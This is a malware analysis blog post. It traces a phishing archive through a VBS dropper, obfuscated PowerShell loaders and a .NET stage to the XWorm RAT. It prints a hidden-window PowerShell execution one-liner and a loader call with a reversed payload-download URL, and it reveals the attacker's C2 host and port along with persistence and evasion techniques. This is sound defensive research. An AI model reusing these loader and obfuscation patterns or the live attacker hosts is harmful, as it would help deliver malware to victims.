



## Introduction

Hello there, welcome to the board! I’m openning this blog series with an exciting topic: malware analysis. I will start by collecting pieces for our puzzle and continue to combine them until, by the end of journey, each piece contributes to the bigger picture.

[*MalwareBazaar*](https://bazaar.abuse.ch/) website provides a large database of malware samples, where researchers can report different files which might seem suspicious. Today, while I was searching for potential subject for analysis, I stumbled upon an interesting archive. This was found as part of an email attachment in a malware campaign. The sample can be found [here](https://bazaar.abuse.ch/sample/76fbfcb8754ba7e23c855a71db83aae75c106d84e106330b772cf3a28a440993/#comments).

## First sign of malicious code

The initial archive contains a disk image `.img` file, a known format for executing code once the victim clicks the file. If this is not yet suspicious, let’s inspect for visible signs that might indicate unwanted behaviour such as download links. For this step, I used a powerful utiliy called `binwalk`, capable of extracting bundled files.

```bash title="extract files from disk image"
binwalk -e Damaged_item.img
```

Now, a new folder `iso-root` contains a friendly-looking `VBS` script.


The script simply tries to download the content found at a Pastebin link and then execute the fetched code using `ExecuteGlobal` function. Good news, the link was suspended and therefore, the following code cannot be executed anymore, preventing victims from infection. Defenders and Pastebin support did great work in such a short period of time (less than 18h :)). Fortunately, I was able to extract the next stage of `VBS` code (the code from Pastebin link) before removal. Let’s analyse it!


We are dealing with some obfuscation, so it would be faster if we can find a way to print the final code (after deobfuscation, but before execution). This way, we can get a clear understanding of what’s under the hood. Some hints suggest that deobfuscated code is powershell. The plan is to write the final code to a powershell script.

```vb title="code appended to the end of obfuscated VBS"
Set fso = CreateObject("Scripting.FileSystemObject")
Set outputFile = fso.CreateTextFile("deobfuscated.ps1", True)
outputFile.WriteLine durguete
```

Once we append this code and execute the whole script, `deobfuscated.ps1` file will help us in the next stage.

## New language, old friend

It becomes clear that attacker tries to hide as much as possible by adding polimorphic code, with many layers of obfuscation. The recovered `PS1` script replaces some substrings in `$codigo` variable, decodes it in `base64` and executes the code using a classic powershell technique.

```powershell
powershell -command "$codigo = 'ZgB1DgTreG4DgTreYwB0DgTreGkDgTrebw <-- stripped --> eKQB9DgTreCDgTreDgTrefQDgTre=';$oWjuxd = [system.Text.encoding]::Unicode.GetString([system.convert]::Frombase64string( $codigo.replace('DgTre','A') ));powershell.exe -windowstyle hidden -executionpolicy bypass -Noprofile -command $OWjuxD"
```

After decoding, we are left with another powershell script. It is more verbose than the previous one.



Let’s break it into smaller pieces. The variable `@links`  contains links used by `DownloadDataFromLinks()` function to download an image (chosen at random). Now comes the interesting part. The actual downloaded image contain an embedded `.NET` assembly (`$loadedAssembly` and `GetMethod` are clear signs that we are dealing with .NET code). I will adapt this PS1 script such that, after downloading and decoding are complete, variable `$commandBytes` will write its content to an output file `malware-net`. Below is a small snippet of what’s being changed in the original code:

Additional decoding is required in order to extract the assembly properly. For that, `CyberChef` tool will simplify things a lot using this [recipe](https://gchq.github.io/CyberChef/#recipe=Decode_text('UTF-16LE%2520(1200)')Find_/_Replace(%257B'option':'Regex','string':'%255C%255Cr%255C%255Cn'%257D,'%2520',true,false,true,false)From_Decimal('Space',false)).

## Decompiling the culprit

We take a look at the first bytes and notice that they represent the file signature for an executable `.EXE`. Inspect it’s properties to gain new insights.

  

Seems like this campaign is addressed to spanish speaking victims. Maybe it was sent to employees of some companies since the description is related to an `Automation project`?

So far, the executable won’t pose dificulties because it’s written in an intepreted language, making it easier to retrieve the original code. [*ILSpy*](https://github.com/icsharpcode/ILSpy0) is a great tool for decompiling .NET binaries, suitable for our purpose. (Open the image in a new tab if you don’t see the code)


This is one functionality of the binary through which the malware tries to gain persistence by abusing widely-known start-up registry `SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run`. Other functionalities found include: using D/Invoke syscall, creating new processes under the path of `cmd.exe` and another one related to .NET framework.


Remember that in previously discussed powershell script, a method was invoked on this assembly, `VAI`:

```powershell title="snipped from second powershell script"
$method = $type.GetMethod('VAI').Invoke($null, [object[]]('441ae23bb6fe-0269-74a4-c2ae-4ebc2dab=nekot&aidem=tla?txt.102061mrowxnhoj/o/moc.topsppa.64038-metsys-eciovni/b/0v/moc.sipaelgoog.egarotsesaberif//:sptth', '1', 'C:ProgramData' , 'Name ',' AddInProcess32 ',' '))} }
```

In ILSpy, we can see that `VAI` is responsible for reversing and downloading the file from link. After that, the file obtained is reversed and decoded in base64.


## Searching for keys?

This hunting brought us to a new .NET binary. We can confirm its signature:

```bash {0-0}
$ file mal2.exe
mal2.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Through decompilation, we find a vast number of functions related to malitious behaviour. In `Main` function, some variables are decrypted using `AES` in `ECB mode`. These “setting” variables will be used later in establishing connections between victim and attacker’s C&C infrastructure.





Based on the known values of encrypted strings and encoded key, it is possible to recover the plaintext values using a similar decryption routine used in encryption:

```csharp
using System;
using System.Security.Cryptography;
using System.Text;
public class Settings
{
    public static string Host = "8wEbreuCNstcX+VMVrMtN79nabenssi23ZA2UwI0sBw=";
    public static string Port = "NHj6D/XmlURhrDZN4bCpqA==";
    public static string KEY = "tGwHQrFuqEZ9E5eQxvPElQ==";
    public static string SPL = "A6XU+/uh3DsQy74ojVhAhQ==";
    public static int Sleep = 3;
    public static string USBNM = "k6tUhyBB8c9OnCp0im2vjw==";
    public static string Mutex = "mrkh245537gVoEKF";
}
public class AlgorithmAES
{
    public static string Decrypt(string input)
    {
        RijndaelManaged rijndaelManaged = new RijndaelManaged();
        MD5CryptoServiceProvider mD5CryptoServiceProvider = new MD5CryptoServiceProvider();
        byte[] array = new byte[32];
        byte[] sourceArray = mD5CryptoServiceProvider.ComputeHash(UTF8SB(Settings.Mutex));
        Array.Copy(sourceArray, 0, array, 0, 16);
        Array.Copy(sourceArray, 0, array, 15, 16);
        rijndaelManaged.Key = array;
        rijndaelManaged.Mode = CipherMode.ECB;
        ICryptoTransform cryptoTransform = rijndaelManaged.CreateDecryptor();
        byte[] array2 = Convert.FromBase64String(input);
        byte[] decryptedBytes = cryptoTransform.TransformFinalBlock(array2, 0, array2.Length);
        return UTF8BS(decryptedBytes);
    }
    private static byte[] UTF8SB(string s)
    {
        return Encoding.UTF8.GetBytes(s);
    }
    private static string UTF8BS(byte[] b)
    {
        return Encoding.UTF8.GetString(b);
    }
}
public class Main2
{
    public static void Main()
    {
        Settings.Host = AlgorithmAES.Decrypt(Settings.Host);
        Console.WriteLine("Decrypted Host: " + Settings.Host);
        Settings.Port = AlgorithmAES.Decrypt(Settings.Port);
        Console.WriteLine("Decrypted Port: " + Settings.Port);
        Settings.KEY = AlgorithmAES.Decrypt(Settings.KEY);
        Console.WriteLine("Decrypted KEY: " + Settings.KEY);
        Settings.SPL = AlgorithmAES.Decrypt(Settings.SPL);
        Console.WriteLine("Decrypted SPL: " + Settings.SPL);
        Settings.USBNM = AlgorithmAES.Decrypt(Settings.USBNM);
        Console.WriteLine("Decrypted USBNM: " + Settings.USBNM);
    }
}
```

Finally, we can reveal the malware family used by threat actors:

```txt title="decrypted strings" {3-3}
Decrypted Host: xwv5group7001.duckdns.org
Decrypted Port: 7001
Decrypted KEY: <123456789>
Decrypted SPL: <Xwormmm>
Decrypted USBNM: USB.exe
```

Taking a closer look at its functions in ILSpy, we find that it’s indeed `XWorm`. On internet, there is already a lot of research done on this malware. Even though, I will mention some of its capabilities: recording keystrokes, printscreens at specific interval of time and sending them to the attacker at random time (this jitter can be useful for bypassing network monitoring solutions). `Trellix` covered more rigorously this topic [here](https://www.trellix.com/blogs/research/old-loader-new-threat-exploring-xworm/).

## Conclusion

The hunt is not over yet since we have valuable informations to work with. For instance, `xwv5group7001.duckdns.org` is a domain name registered by the attacker. It might provide additional information about his real identity, through OSINT techniques. Maybe the C2 infrastructured is poorly configured, leaving it vulnerable to attacks from defenders who are investigating this case. What about other clues left behind during this analysis process?

Our jorney will end here for now, but it is worth investigating what hasn’t been covered in this post. Sometimes you end up finding interesting information:). Thank you for your undivided attention during this reading and don’t hesitate to contact me on social media for questions or feedback. Best wishes until next time!
